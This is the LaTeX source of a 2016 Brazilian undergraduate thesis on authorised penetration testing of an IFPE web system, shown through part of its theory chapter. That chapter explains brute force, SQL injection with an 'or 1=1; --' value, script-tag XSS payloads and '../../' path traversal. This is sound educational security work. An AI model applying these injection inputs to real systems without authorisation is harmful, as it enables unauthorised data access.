%% Documento gerado pelo FastFormat (http://fastformat.co), com base nos modelos canônicos da classe ABNTEX2 (https://github.com/abntex/abntex2).
\documentclass[
    % -- opções da classe memoir --
    12pt,               % tamanho da fonte
    openright,          % capítulos começam em pág ímpar (insere página vazia caso preciso)
    oneside,            % para impressão em verso e anverso. Oposto a % oneside
    a4paper,            % tamanho do papel. 
    % -- opções da classe abntex2 --
    %sumario=abnt-6027-2012, %sumario=tradicional (%sumário memoir)
       % títulos de capítulos convertidos em letras maiúsculas
    section=TITLE,     % títulos de seções convertidos em letras maiúsculas
    %subsection=TITLE,  % títulos de subseções convertidos em letras maiúsculas
    %subsubsection=TITLE,% títulos de subsubseções convertidos em letras maiúsculas
    % -- opções do pacote babel --
    english,            % idioma adicional para hifenização
    french,             % idioma adicional para hifenização
    spanish,            % idioma adicional para hifenização
    brazil              % o último idioma é o principal do documento
    ]{abntex2}

\usepackage{lmodern}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage{lastpage}
\usepackage{indentfirst}
\usepackage{color}
\usepackage[dvipsnames,svgnames,table,usenames]{xcolor}
\usepackage{microtype}
\usepackage{seqsplit}
\usepackage{url}
\usepackage{breakurl}
\usepackage{enumitem}
\usepackage{textcomp}
\usepackage{marvosym}
\usepackage{iflang}
\usepackage{lipsum}
\usepackage{blindtext}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{gensymb}
\usepackage{soulutf8}
\usepackage{pdfpages}
\usepackage[normalem]{ulem}
\usepackage{setspace}
\let\newfloat\undefined
\usepackage{floatrow}
\usepackage{booktabs}
\usepackage[section]{placeins}
\usepackage[font=footnotesize]{caption}
\usepackage{array}
\usepackage{xtab}
\usepackage{graphicx}
\usepackage{uarial}

\DeclareUnicodeCharacter{00A0}{ }
\newcolumntype{D}[1]{>{\raggedright\let\newline\\\arraybackslash\hspace{0pt}}m{#1}}
\newcolumntype{M}[1]{>{\centering\let\newline\\\arraybackslash\hspace{0pt}}m{#1}}
\newcolumntype{E}[1]{>{\raggedleft\let\newline\\\arraybackslash\hspace{0pt}}m{#1}}
\def\fftablefontsize{\footnotesize}
\floatsetup[table]{capposition=bottom}
\captionsetup[table]{justification=centering,singlelinecheck=false}
\def\ffcaptionfontsize{\footnotesize}
\floatsetup[figure]{capposition=bottom}
\captionsetup[figure]{justification=centering,singlelinecheck=false}
\renewcommand{\familydefault}{\sfdefault}



% ---

	\renewcommand{\ABNTEXchapterfont}{\sffamily}



	\renewcommand{\ABNTEXchapterfontsize}{\large}
	\renewcommand{\ABNTEXpartfontsize}{\ABNTEXchapterfontsize}
	\renewcommand{\ABNTEXsectionfontsize}{\normalsize}
	\renewcommand{\ABNTEXsubsectionfontsize}{\normalsize}
	\renewcommand{\ABNTEXsubsubsectionfontsize}{\normalsize}
	\renewcommand{\ABNTEXsubsubsubsectionfontsize}{\normalsize}

% ---


	
		\renewcommand{\ABNTEXchapterfont}{\sffamily\bfseries}
	


\renewcommand{\ABNTEXpartfont}{\ABNTEXchapterfont}
\renewcommand{\ABNTEXsectionfont}{\ABNTEXchapterfont}
\renewcommand{\ABNTEXsubsectionfont}{\ABNTEXsectionfont}
\renewcommand{\ABNTEXsubsubsectionfont}{\ABNTEXsubsectionfont}
\renewcommand{\ABNTEXsubsubsubsectionfont}{\ABNTEXsubsectionfont}

% FONT TOC (removes the standard MakeUpperCase of abntex2)
\makeatletter
\ifthenelse{\boolean{ABNTEXsumario-abnt-6027-2012}}{
  \settocpreprocessor{chapter}{%
  \let\tempf@rtoc\f@rtoc%
  \def\f@rtoc{%
  \texorpdfstring{\tempf@rtoc}{\tempf@rtoc}}%
  }
  \settocpreprocessor{part}{%
  \let\tempf@rtoc\f@rtoc%
  \def\f@rtoc{%
  \texorpdfstring{\tempf@rtoc}{\tempf@rtoc}}%
  }
}{}
\makeatother

% Font size do sumario

\renewcommand{\cftpartfont}{\normalsize}
\renewcommand{\cftpartpagefont}{\normalsize}
  
\renewcommand{\cftchapterfont}{\normalsize}
\renewcommand{\cftchapterpagefont}{\normalsize}
 
\renewcommand{\cftsectionfont}{\normalsize}
\renewcommand{\cftsectionpagefont}{\normalsize}
  
\renewcommand{\cftsubsectionfont}{\normalsize}
\renewcommand{\cftsubsectionpagefont}{\normalsize}
 
\renewcommand{\cftsubsubsectionfont}{\normalsize}
\renewcommand{\cftsubsubsectionpagefont}{\normalsize}

\renewcommand{\cftsubsubsubsectionfont}{\normalsize}
%\renewcommand{\cftsubsubsubsectionpagefont}{\normalsize}

\renewcommand{\cftparagraphfont}{\normalsize}
\renewcommand{\cftparagraphpagefont}{\normalsize}

% Redefine o estilo de capítulo do ABNTEX para poder alinhar capítulo
% não numerados.
\renewcommand{\printchaptertitle}[1]{%
    \chaptitlefont%
    \ifthenelse{\boolean{abntex@innonumchapter}}{
        
		    \centering%
		
        \ABNTEXchapterupperifneeded{#1}%
    }{%
    \ifthenelse{\boolean{abntex@apendiceousecao}}{%
        \centering%
        \settowidth{\chapternamenumlength}{\printchaptername\printchapternum\afterchapternum}%
        \ABNTEXchapterupperifneeded{#1}%
    }{%
        \settowidth{\chapternamenumlength}{\printchaptername\printchapternum\afterchapternum}%
        \parbox[t]{\columnwidth-\chapternamenumlength}{\ABNTEXchapterupperifneeded{#1}}}%
    }    
}


    \renewcommand{\absnamepos}{center}


% ---
% Pacotes de citações
% ---

\usepackage[brazilian,hyperpageref]{backref}     % Paginas com as citações na bibl



\usepackage[
	num,
	abnt-emphasize=emph
	]{abntex2cite}   % Citações padrão ABNT


% Adaptacao para os comando do Fastformat
\newcommand{\citep}{\cite}
\newcommand{\citet}{\citeonline}

% --- 
% CONFIGURAÇÕES DE PACOTES
% --- 


% ---
% Configurações do pacote backref
% Usado sem a opção hyperpageref de backref
\renewcommand{\backrefpagesname}{Citado na(s) página(s):~}
% Texto padrão antes do número das páginas
\renewcommand{\backref}{}
% Define os textos da citação
\renewcommand*{\backrefalt}[4]{
    \ifcase #1 %
        Nenhuma citação no texto.%
    \or
        Citado na página #2.%
    \else
        Citado #1 vezes nas páginas #2.%
    \fi}%
% ---


% ---
% Configurações de aparência do PDF final

% alterando o aspecto da cor azul
\definecolor{blue}{RGB}{41,5,195}

% informações do PDF
\makeatletter
\hypersetup{
        %pagebackref=true,
        pdftitle={\@title}, 
        pdfauthor={\@author},
        pdfsubject={\imprimirpreambulo},
        pdfcreator={fastformat.co},
        pdfkeywords={fastformat.co}, 
        %
        colorlinks=false,
        hidelinks=true,
        %
        bookmarksdepth=4
}
\makeatother
% --- 
%---
% CAPTION DEFINITIONS
%---

\captionsetup[table]{width=\linewidth,labelfont=bf,textfont=bf}
\captionsetup[lstlisting]{width=\linewidth,labelfont=bf,textfont=bf}
\captionsetup[figure]{width=\linewidth,labelfont=bf,textfont=bf}

%---
% EXTERNAL CO-ADVISER COMMANDS
%---
\RequirePackage[brazil]{babel}

\newcommand{\coorientadorExternoName}{Coorientador externo:}

\addto\captionsenglish{
\renewcommand{\coorientadorExternoName}{External Co-supervisor:}
}

% Comandos de dados - coorientador
\providecommand{\imprimirCoorientadorExternoRotulo}{}
\providecommand{\imprimirCoorientadorExterno}{}
\newcommand{\coorientadorExterno}[2][\coorientadorExternoName]%
{\renewcommand{\imprimirCoorientadorExternoRotulo}{#1}%
\renewcommand{\imprimirCoorientadorExterno}{#2}}

%---
% QUOTATION
%---
\renewenvironment{quotation}%
  {%
   \begin{list}{}{%
       \setlength{\listparindent}{0cm}%
       \setlength{\itemindent}{\listparindent}%
       \setlength{\rightmargin}{0cm}%
       \setlength{\leftmargin}{4cm}%
       \setlength{\parsep}{0pt}}%
    \small\SingleSpacing\item\relax}%
  {\end{list}}

% ---

% ---
% Lista de abreviaturas e siglas
\renewenvironment{siglas}{%
  \pretextualchapter{\listadesiglasname}
  \begin{description}[leftmargin=\widthof{ AAAAAAAA },style=nextline]
}{%
  \end{description}
  \cleardoublepage
}
% ---

% ---
% Lista de simbolos
\renewenvironment{simbolos}{%
  \pretextualchapter{\listadesimbolosname}
  \begin{description}[leftmargin=\widthof{ AAAAAAAA },style=nextline]
}{%
  \end{description}
  \cleardoublepage
}
% ---


\makeatletter
\renewcommand{\imprimircapa}{%
  \begin{capa}%
    \center
    {\abntex@ifnotempty{\imprimirinstituicao}{\imprimirinstituicao\vfill}}
    
    {\ABNTEXchapterfont\ABNTEXsectionfontsize\imprimirautor}

    \vfill
    \begin{center}
    {\ABNTEXchapterfont\bfseries\ABNTEXsectionfontsize\imprimirtitulo}
    \end{center}
    
    \vfill
    {\ABNTEXchapterfont\ABNTEXsubsectionfontsize\imprimirtipotrabalho}
    
    \abntex@ifnotempty{\volume}{%
      \vspace*{\fill}
      {\ABNTEXchapterfont\ABNTEXsubsectionfontsize\volume}
    }%
    
    \vfill
    
    {\ABNTEXchapterfont\ABNTEXsubsectionfontsize\imprimirlocal}
	\\
    {\ABNTEXchapterfont\ABNTEXsubsectionfontsize\imprimirdata}
    
  \end{capa}
}
\makeatother



\makeatletter
\renewcommand{\folhaderostocontent}{
  \begin{center}

    %\vspace*{1cm}
    {\ABNTEXchapterfont\ABNTEXsectionfontsize\imprimirautor}
    
    \vspace*{\fill}\vspace*{\fill}
    \begin{center}
      {\ABNTEXchapterfont\bfseries\ABNTEXsectionfontsize\imprimirtitulo}
    \end{center}
    \vspace*{\fill}
    
    \abntex@ifnotempty{\imprimirpreambulo}{%
      \hspace{.45\textwidth}
      \begin{minipage}{.5\textwidth}
        \SingleSpacing
         \imprimirpreambulo
         \SingleSpacing
         \par
         {\imprimirorientadorRotulo~\imprimirorientador\par}
            \abntex@ifnotempty{\imprimircoorientador}{%
               {\imprimircoorientadorRotulo~\imprimircoorientador}%
            }%
       \end{minipage}%
       \vspace*{\fill}
    }%

    \abntex@ifnotempty{\volume}{%
      {\ABNTEXchapterfont\ABNTEXsubsectionfontsize\volume}
    }%

    \vfill

    {\ABNTEXchapterfont\ABNTEXsubsectionfontsize\imprimirlocal}
    \\
    {\ABNTEXchapterfont\ABNTEXsubsectionfontsize\imprimirdata}

  \end{center}
}
\makeatother


% ---
% Informações de dados para CAPA e FOLHA DE ROSTO
% ---

\titulo{%
\textbf{ESTUDO SOBRE PENTEST APLICADO NA ANÁLISE DE SEGURANÇA EM SISTEMA~WEB}%
}%

\autor{%
DIEGO ANTÔNIO FERREIRA\\PÂMELA BEATRIZ LINS DE SOUZA%
}%

\local{%
Recife%
}%

\data{%
Julho de 2016%
}%




\orientador{%
Marcos André da Silva Costa%
}%



\tipotrabalho{%
%
}%



\preambulo{ Trabalho de Conclusão do Curso apresentado à coordenação do curso de análise e desenvolvimento de sistemas no Instituto Federal de Educação, Ciência e Tecnologia de Pernambuco – Campus Recife para obtenção do título de Tecnólogo em Análise e Desenvolvimento de Sistemas. }



\def\volume{%
%
}%



\instituicao{\bfseries%
  Instituto Federal de Educação, Ciência e Tecnologia de Pernambuco - Campus Recife
  \par
  
  \par
  
  \par
  Curso de Tecnologia em Análise e Desenvolvimento de Sistemas }



% --- 
% Espaçamentos entre linhas e parágrafos 
% --- 

% O tamanho do parágrafo é dado por:
\setlength{\parindent}{1.3cm}

% Controle do espaçamento entre um parágrafo e outro:

\setlength{\parskip}{0.2cm}


% Controle do espçamento entre o título do capítulo e o primeiro parágrafo.

\setlength{\afterchapskip}{40pt}






% ---
% compila o indice
% ---
\makeindex
% ---

% ----
% Início do documento
% ----
\begin{document}

% Retira espaço extra obsoleto entre as frases.
\frenchspacing 

\addto\captionsenglish{\renewcommand{\bibname}{References}}
\addto\captionsportuguese{\renewcommand{\bibname}{Referências}}
\addto\captionsbrazil{\renewcommand{\bibname}{Referências}}

% Seleciona o idioma do documento (conforme pacotes do babel)
\selectlanguage{%
brazil%
}%

% ---

% ---





% ----------------------------------------------------------
% ELEMENTOS PRÉ-TEXTUAIS
% ----------------------------------------------------------
% \pretextual

% ---
% Capa
% ---

\imprimircapa

% ---

% ---
% Folha de rosto
% (o * indica que haverá a ficha bibliográfica)
% ---

\imprimirfolhaderosto*

% ---

% ---
% Inserir a ficha bibliografica
% ---

% ---

% ---
% Inserir errata
% ---
% \begin{errata}
% Elemento opcional da \citeonline[4.2.1.2]{NBR14724:2011}. Exemplo:
% 
% \vspace{\onelineskip}
% 
% FERRIGNO, C. R. A. \textbf{Tratamento de neoplasias ósseas apendiculares com
% reimplantação de enxerto ósseo autólogo autoclavado associado ao plasma
% rico em plaquetas}: estudo crítico na cirurgia de preservação de membro em
% cães. 2011. 128 f. Tese (Livre-Docência) - Faculdade de Medicina Veterinária e
% Zootecnia, Universidade de São Paulo, São Paulo, 2011.
% 
% \begin{table}[htb]
% \center
% \footnotesize
% \begin{tabular}{|p{1.4cm}|p{1cm}|p{3cm}|p{3cm}|}
%   \hline
%    \textbf{Folha} & \textbf{Linha}  & \textbf{Onde se lê}  & \textbf{Leia-se}  \\
%     \hline
%     1 & 10 & auto-conclavo & autoconclavo\\
%    \hline
% \end{tabular}
% \end{table}
% 
% \end{errata}
% ---

% ---
% Inserir folha de aprovação
% ---


\begin{folhadeaprovacao}
  
  \begin{center}
    {\ABNTEXchapterfont\ABNTEXsubsectionfontsize\imprimirautor}

    \vspace*{\fill}\vspace*{\fill}
    {\ABNTEXchapterfont\ABNTEXsubsectionfontsize\bfseries\imprimirtitulo}
    \vspace*{\fill}
    
    \hspace{.45\textwidth}
    \begin{minipage}{.5\textwidth}
        \textbf{IMPORTANTE:} ESSE É APENAS UM TEXTO DE EXEMPLO DE FOLHA DE
        APROVAÇÃO. VOCÊ DEVERÁ SOLICITAR UMA FOLHA DE
        APROVAÇÃO PARA SEU TRABALHO NA SECRETARIA DO SEU CURSO (OU
        DEPARTAMENTO).
    \end{minipage}%
    \vspace*{\fill}
   \end{center}
        
   Trabalho aprovado. \imprimirlocal, DATA DA APROVAÇÃO:

   \assinatura{\textbf{\imprimirorientador} \\ Orientador} 
   \assinatura{\textbf{Professor} \\ Convidado 1}
   \assinatura{\textbf{Professor} \\ Convidado 2}
   %\assinatura{\textbf{Professor} \\ Convidado 3}
   %\assinatura{\textbf{Professor} \\ Convidado 4}
      
   \begin{center}
    \vspace*{0.5cm}
    {\ABNTEXchapterfont\ABNTEXsubsectionfontsize\imprimirlocal}
    \par
    {\ABNTEXchapterfont\ABNTEXsubsectionfontsize\imprimirdata}
    \vspace*{1cm}
  \end{center}
  
\end{folhadeaprovacao}


% ---

% ---
% Dedicatória
% ---


\begin{dedicatoria}
   \vspace*{\fill}
   \centering
   \noindent
   \itshape 
\begin{flushright}
~
\end{flushright}



\chapter*{Dedicatória}\addcontentsline{toc}{chapter}{Dedicatória}


\begin{flushright}
~
\end{flushright}



\begin{flushright}
~
\end{flushright}



\begin{flushright}
Gostaria de agradecer aos meus pais cuja dedicação e apoio me motivaram a estar no patamar onde estou. Aos meus amigos e a minha namorada pelas tantas lutas diárias que enfrentamos juntos ao longo desses difíceis anos de curso sem esmorecer um minuto. A~minha querida amiga Pâmela Beatriz, pelo empenho e por sempre me manter motivado. Ao nosso orientador,Marcos André~ por aceitar o desafio e nos guiar de forma brilhante ao longo do trabalho. A professora Renata Freire cuja assistência foi essencial para me ajudar em problemas dificeis e ao Professor Francisco Granata pela grande ajuda.
\end{flushright}





\begin{flushright}
Diego Antônio
\end{flushright}



\begin{flushright}
~
\end{flushright}



\begin{flushright}
Primeiramente a Deus,~por ter me concedido sabedoria e saúde para chegar até aqui. A minha família que sempre se esforçou para me conceder as melhores oportunidades e por todos os bons valores transmitidos a mim.~Ao meu esposo, que esteve sempre ao meu lado me auxiliando e~me dando apoio em todos os momentos.~Aos professores por todo o ensinamento. Ao meu amigo Diego Antônio~por enfrentarmos juntos essa jornada, e por sua~dedicação e esforço ao ter divido esse trabalho comigo. Ao nosso orientador Marcos~André, por toda a dedicação e grande apoio para nos ajudar a fazer sempre o nosso melhor.~Para todos os que depositaram expectativas~em mim e de alguma forma contrubuíram para o meu sucesso.
\end{flushright}



\begin{flushright}
~
\end{flushright}



\begin{flushright}
Pâmela Beatriz
\end{flushright}

 \vspace*{\fill}
\end{dedicatoria}


% ---

% ---
% Agradecimentos
% --

% ---

% ---
% Epígrafe
% ---

% ---

% ---
% RESUMOS
% ---
% resumo em português


\setlength{\absparsep}{18pt} % ajusta o espaçamento dos parágrafos do resumo
\begin{resumo}
  
    %\OneHalfSpacing
  
 Diante de uma evolução contínua no desenvolvimento de novas tecnologias, garantir que um determinado sistema seja totalmente seguro torna-se quase impossível. Por isso, é de extrema importância a busca por vulnerabilidades em Aplicações Web. Essas possíveis brechas de segurança devem ser investigadas e exploradas para que possam ser corrigidas e os seus efeitos no negócio de uma organização sejam amenizados.


Testes de Penetração são métodos que visam encontrar e avaliar as brechas na estrutura de segurança em um~sistema. Proteger informações de uma organização implica diretamente na continuidade, qualidade e integridade de seus serviços.


Fundado desde 1909 \citep{62952}, o IFPE possui notável relevância como uma instituição pública destinada a oferecer serviços de peso para a sociedade. A instituição possui aplicações web que, dentre outros, abrigam dados essenciais para os seus negócios. Elas são utilizadas por professores, servidores e alunos nas atividades letivas, dessa forma representam um grande alvo para invasores e espiões mal intencionados. Ter os dados dessas aplicações acessados de forma indevida representa um grande risco para os serviços do IFPE podendo comprometer toda a sua atividade fim. Dessa maneira, os testes de intrusão podem promover a prevenção contra essas ameaças e contribuir de forma primordial para afirmar a existência relevante da instituição na sociedade.




Palavras-chave: Segurança da Informação, Pentest, busca por vulnerabilidades, testes de penetração, testes de intrusão.


\end{resumo}



% resumo em inglês


\begin{resumo}[Abstract]
 \begin{otherlanguage*}{english}
   
     %\OneHalfSpacing
   
   Faced with a continuing evolution in the development of new technologies, it's almost impossible ensure that a given system is entirely safe. So it is very important to search for vulnerabilities in Web Applications. These possible security breaches should be investigated and explored in order to be corrected to reduce its effects on business of an organization.

 
Penetration tests are methods that aim to find and assess the gaps in the safety structure of a system. Protect information in an organization directly implies in the continuity , quality and integrity of its services.


Founded since 1909 \citep{62952}, the IFPE has considerable importance as a public institution designed to offer services relevants to society. The institution has web applications, among others, it store critical data for their business.These applications are used by teachers, servants and students in the teaching activities thus represent a major target for attackers and malicious spies. The data from these applications can be accessed improperly and this poses a great risk for IFPE's services because can compromise all to the company's core activity. Thus, intrusion tests can promote the prevention of such threats and contribute to primary way to affirm the existence of the relevant institution in society.


























Keywords: Information Security, Pentest , search for vulnerabilities , penetration testing , intrusion testing.


 \end{otherlanguage*}
\end{resumo}



% resumo em francês 


% resumo em espanhol


% resumo em italiano

% ---

% ---
% inserir lista de ilustrações
% ---

  \pdfbookmark[0]{\listfigurename}{lof}
  \listoffigures*
  \cleardoublepage

% ---

% ---
% inserir lista de tabelas
% ---

% ---

% ---
% inserir lista de abreviaturas e siglas
% ---

\begin{siglas}

\item[\textnormal{%
ABNT%
}] Associação Brasileira de Normas Técnicas

\item[\textnormal{%
API%
}] Application Programming Interface

\item[\textnormal{%
CMD%
}] Command Prompt

\item[\textnormal{%
FTP%
}] File Transfer Protocol

\item[\textnormal{%
HTML%
}] Hyper Text Markup Language

\item[\textnormal{%
HTTP%
}] Hypertext Transfer Protocol

\item[\textnormal{%
IFPE%
}] Instituto Federal de Educação, Ciência e Tecnologia de Pernambuco

\item[\textnormal{%
ISO%
}] International Organization for Standardization

\item[\textnormal{%
RPC%
}] Remote Procedure Call

\item[\textnormal{%
SQL%
}] Structured Query Language

\item[\textnormal{%
SSH%
}] Secure Shell

\item[\textnormal{%
TCP%
}] Transmition Control Protocol

\item[\textnormal{%
UDP%
}] User Datagram Protocol

\end{siglas}

% ---

% ---
% inserir lista de símbolos
% ---

% ---

% ---
% inserir o sumario
% ---




\pdfbookmark[0]{\contentsname}{toc}
\cleardoublepage
\tableofcontents*
\cleardoublepage

% ---

% ----------------------------------------------------------
% ELEMENTOS TEXTUAIS
% ----------------------------------------------------------
\textual



\chapter{Introdução}

Dentre tantos elementos relevantes para os objetivos e negócio de uma organização, está a informação:~ um dos bens de maior valor que essa possui. De acordo com a norma NBR ISO/IEC 27002\citep{62241}, o valor desse bem vai além das palavras escritas, números e imagens, abrange tudo que possa estar relacionado a ele. Por isso, cuidar da segurança de ativos de uma empresa deve ser uma preocupação séria. Em mundo cada vez mais interligado e envolvido com as aplicações web e outras tecnologias que promovem o compartilhamento de informações, é imprescindível a proteção contra riscos comprometedores do sigilo e da segurança da informação.


Entretanto, em meio às empresas, é notável, a existência de certa displicência no tratamento de dados sensíveis ao seu próprio negócio. Esse padrão acaba por facilitar o surgimento de brechas na segurança, permitindo que atacantes mal intencionados tenham acesso não autorizado a informações da empresa. Há um grande problema na ideia quanto ao conceito de segurança. Uma grande maioria das organizações se limita a proteger o espaço físico fazendo uso, por exemplo, de portas, câmeras e alarmes, mas desprezam atitudes como exposição de senhas, controle de acesso a informações sensíveis que entre outros, podem cair em domínio publico através de um acesso não autorizado.


Esse tipo de ação maliciosa tem consequências devastadoras para uma empresa ou para os prováveis clientes dela, caracterizados muitas vezes como os principais alvos em ações desse tipo. É fácil encontrar históricos recentes de organizações fortemente lesadas por ataques maliciosos à segurança. Em 2011, a Sony sofreu um grande ataque: mais de 70 milhões de dados de cartão de créditos de usuários da Playstation Network (PSN) foram acessados indevidamente\citep{62949}. Isso abalou a confiança da empresa, a qual, teve, inclusive, de responder penalmente pela falha de segurança\citep{62951}. Em 2014, houve um outro grande incidente com vazamentos de dados. Dessa vez a Apple, empresa do visionário Steve Jobs graças a uma brecha de segurança expôs fotos íntimas de um grande grupo de celebridades de Hollywood\citep{62948}. Essas imagens escandalizaram a empresa por terem se tornado de domínio publico ao cair na Internet.


A análise desses exemplos citados conduz à compreensão de que segurança da informação deve ser uma preocupação primordial para qualquer empresa. A maneira como essa segurança é tratada e as consequências disso contribuirão efetivamente para comprometer o futuro de uma organização. Dessa forma, é muito significante saber se o Instituto Federal de Pernambuco (IFPE), instituição que revela a sua grande importância na sociedade através da promoção educacional de profissão, ciência e tecnologia em todos os seus níveis e modalidades, possui algum sistema web que, após submetido à testes de intrusão, apresente falhas na estrutura de segurança. Então, será possível buscar e identificar vulnerabilidades, pertinentes a esse sistema, que possam comprometer a integridade dos seus dados e serviços prestados.



\section{Objetivos}

Nesta seção, será apresentado o objetivo do trabalho e como estão organizados os passos para atender o que foi proposto. Para fins de segurança não será exposto no trabalho o nome da aplicação alvo utilizada para testes.



\subsection{Objeto Geral}

O objetivo geral do trabalho é identificar pontos vulneráveis na estrutura de segurança do sistema computacional do IFPE escolhido para os testes, usando técnicas e ferramentas específicas para Pentest.



\subsection{Objetivos Específicos}

Para atender o objetivo proposto existe uma série de passos a serem realizados, o primeiro passo é elaborar um plano de testes que seja condizente com as características do sistema-alvo para servir como guia das atividades de testes que serão executadas.


Feito isso, a Diretoria Geral de Tecnologia da Informação (DGTI) do IFPE deverá fornecer, aos analistas de testes, acesso a um ambiente de testes que seja uma cópia do sistema real, livre para sofrer ataques de forma isolada do sistema em produção. Então será realizada toda a bateria de testes de intrusão no sistema-alvo.


Por fim, todos os resultados dos testes serão registrados em um Relatório de Execução. Posteriormente, esse documento será entregue à DGTI para que as vulnerabilidades encontradas possam ser elucidadas, analisadas e corrigidas pelos responsáveis que prestam manutenção à aplicação testada.



\section{Problema da pesquisa}

Como a utilização de testes de penetração em um sistema web pode ajudar na detecção de vulnerabilidades que podem pôr em risco a segurança das informações relacionadas aos serviços e negócios de uma organização.



\section{Hipótese do trabalho}

O emprego de técnicas para realização de testes intrusivos manuais ou automatizados pode auxiliar na identificação de falhas de segurança em aplicações web. A instituição ou empresa proprietária do sistema testado poderá utilizar a detecção das vulnerabilidades para corrigi-las e, dessa forma, aumentará a proteção contra riscos que podem comprometer a segurança das informações do seu negócio.





\chapter{Fundamentação Teórica}


\section{Segurança da Informação}

O termo Segurança da Informação, normalmente associado a questões como Vulnerabilidade de Sistemas, se refere a todos os possíveis mecanismos de controle e proteção disponibilizados por uma instituição para defender sua Informação.


Informação é um ativo importante para a organização e os meios de defendê-la são bem variados podendo ser mecanismos lógicos, físicos ou até políticos.



\section{Norma ISO/IEC 27002}

É a norma definida pela ABNT para regulamentar a Segurança da Informação e quais seriam os procedimentos a serem adotados para garantir a segurança dos ativos.


A norma cita desde segurança da informação até controles, políticas, objetivos e até descrevendo ambientes para garantir que a informação esteja segura.\citep{62241}



\section{Aplicações WEB}

São sistemas desenvolvidos para responder requisições HTTP usando a arquitetura cliente-servidor. Esses sistemas são hospedados por servidores web que recebem e transferem todas as requisições recebidas para a aplicação.


Essas aplicações podem ser divididas em dois tipos: Estáticas, onde apenas são disponibilizados conteúdos estáticos em formato Html ou dinâmicas (interativas) onde para cada usuário que acesse, a aplicação comporta-se de forma diferente.


Exemplos de aplicações não faltam: E-commerces, sites de bancos, do governo, redes sociais etc.



\section{Tipos de Ataques mais Comuns a Aplicações WEB}


\subsection{Força Bruta}

É o tipo de ataque baseado na tentativa e erro onde as credenciais de acesso a dados protegidos, software ou sistema são encontradas baseadas em palpites\citep{62228}~. Caso a tentativa consiga ser efetiva, dá ao atacante total acesso a informações, permissões e credenciais da vítima dentro do sistema alvo.



Como se trata de um longo processo de tentativas é comum que sejam utilizadas, no processo, ferramentas automatizadas aliadas ao uso de algumas técnicas que reduzam o espaço de amostras. Dessa forma o processo para descobrimento de credenciais torna-se mais rápido.


técnica mais comum utiliza dicionários que são amostras escolhidas pelo atacante baseado no prévio conhecimento dos padrões de senha ou de gostos pessoais da vítima. \citep{62228}




\subsection{SQL Injection}

É um ataque que explora a falta de tratamento dos parâmetros textuais enviados a uma aplicação. A injeção de SQL pode ocorrer através da passagem de instruções SQL em parâmetros textuais utilizados por um sistema, a fim de executar ações não autorizadas no banco de dados~.



O ataque só tem êxito devido ao interpretador SQL presente em todos os bancos e utilizado para converter o texto advindo das aplicações em instruções SQL.


A conversão realizada pelo interpretador acontece de forma instantânea e não envolve processo de compilação. Portanto, o trabalho do interpretador se limita a executar o que recebe causando uma possível brecha, caso os dados recebidos não sejam devidamente tratados.


Tendo como exemplo a consulta SQL abaixo:


select * from usuarios where id = 1;


Se o parâmetro \emph{\textquotedblleft{}Id\textquotedblright{} }receber um dado malicioso que possa comprometer o funcionamento da instrução e esse dado não for devidamente tratado pela aplicação, o texto enviado pode ser interpretado com sucesso pelo interpretador de SQL do banco de dados e consultas maliciosas como essa conseguem ser executadas:


select * from usuarios where id = 1 \textbf{or~1=1; --}


Nessa última consulta, o banco de dados é forçado a retornar como resultado não apenas os dados de um usuário com \emph{id = 1}, mas os dados de todos os usuários cadastrados, uma vez que a igualdade \emph{1=1} sempre será uma condição verdadeira. O comentário de linha $\lq$--\rq{} força que todas as instruções que vierem após e que estejam na mesma linha sejam ignoradas.


Em caso de sucesso, o SQL Injection dá ao atacante acesso direto ao banco podendo conseguir executar códigos maliciosos para: descobrir nomes e colunas das tabelas, descobrir dados cadastrados na tabela, apagar tabelas ou até mesmo o banco, etc.




\subsection{XSS}

Representa o acrônimo de Cross-Site Scripting. É a execução de scripts maliciosos dentro de um site confiável. As formas mais comuns de apresentação do ataque são: A Persistida e Refletida\citep{62231}


Persistida é quando um código Javascript é inserido de forma permanente no banco de dados da aplicação devido à falta de validação da entrada de texto que contém um código Javascript. No momento que o usuário acessa a página atacada, o código é trazido do banco e interpretado pelo navegador acreditando ser um código da aplicação. Um bom exemplo disso é o trecho abaixo:



\begin{center}
\emph{$\textless$script$\textgreater$ alert(\textquotedblleft{}Hello XSS\textquotedblright{});$\textless$/script$\textgreater$}
\end{center}


Caso o código consiga ser inserido no banco via aplicação, quando acessada, a página atacada exibirá um pop-up contendo o texto \emph{\textquotedblleft{}Hello XSS\textquotedblright{}}, dessa forma, o usuário do sistema não saberá que foi realmente alvo de um ataque.


Já a forma Refletida~ faz uso de uma chamada realizada ao servidor para incluir um código malicioso que também é executado no lado cliente. Tomando como exemplo uma aplicação que receba um parâmetro sem tratamento pela URL e exiba-o na tela como indicado abaixo:






\begin{center}
\emph{www.meusitevulneravel.com.br?parametroInjetavel=teste}
\end{center}


E sendo exibido na tela assim:



\begin{center}
\emph{echo $\lq$$\textless$h1$\textgreater$$\lq$ + getParameter($\lq$parametroInjetavel\rq{}) + $\lq$$\textless$/h1$\textgreater$';}
\end{center}


Caso o parâmetro \emph{parametroInjetavel} não receba o tratamento adequado, um código malicioso pode ser injetado por um atacante, posteriormente ser interpretado e executado pelo browser no lado do cliente. Como abaixo:



\begin{center}
\emph{www.meusitevulneravel.com.br?parametroInjetavel=$\textless$script$\textgreater$ alert(\textquotedblleft{}Hello XSS\textquotedblright{});$\textless$/script$\textgreater$}
\end{center}


O código acima exibiria o mesmo pop-up do exemplo de XSS refletido citado anteriormente. Devido à falta de registros armazenados o XSS Refletido é bem mais difícil de ser executado, porém é bem trabalhoso para identificar o ataque.


No Brasil, já houve registro de ataque via XSS Refletido. O site oficial do Santos Futebol Clube, sofreu uma invasão e foram inseridas na página informações de uma falsa notícia sobre a venda de um jogador famoso do Santos, fazendo com que vários leitores fossem enganados \citep{62233}. Esse ataque ocorreu devido à falta de tratamento dos parâmetros enviados à tela.


Com o XSS o atacante pode \citep{62127}:



\begin{enumerate}[start=1]
	
\item Usar pop-ups (utilizado em provas de conceito);
	
\item Sequestrar Identificadores de Sessão;
	
\item Fazer download e instalar programas danosos como keyloggers;
	
\item Redirecionar a página para uma URL diferente.

\end{enumerate}





\subsection{Path Transversal}

É um ataque executado baseado em tentativa e erro onde o atacante tenta atingir arquivos que estão fora do diretório onde o sistema está hospedado. Expressões como \textquotedblleft{}../../\textquotedblright{} são utilizadas para conseguir navegar dentro da hierarquia de pastas do sistema.\citep{62127}


